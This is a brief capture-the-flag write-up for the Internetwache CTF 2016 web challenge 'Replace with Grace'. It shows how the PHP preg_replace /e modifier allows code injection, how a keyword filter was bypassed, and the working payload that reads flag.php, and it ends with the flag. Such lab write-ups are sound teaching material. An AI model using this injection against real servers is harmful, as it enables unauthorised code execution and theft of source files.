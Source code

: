 ```yaml
---
layout: post
title:  "Internetwache CTF 2016: Replace with Grace (web 60)"
author: sigttou
categories: writeup
tags: [cat/web, lang/php]
---
```


* **Category:** web
* **Points:** 60
* **Description:** 

> Regular expressions are pretty useful. Especially when you need to search and replace complex terms.

## Write-up

The given website is used to "Search & Replace" with regular expressions.
From other challenges we know, that we can execute php code using:

```php
/(.*)/e
```

(Check out [this Stackoverflow answer](http://stackoverflow.com/a/16986549/1518225) for details.)

The problem was, that the website filtered some inputs like:

* file
* open


It worked with:

```
var_dump(show_source('flag.php'));
```

A simple, but nice challenge.

```
IW{R3Pl4c3_N0t_S4F3}
```
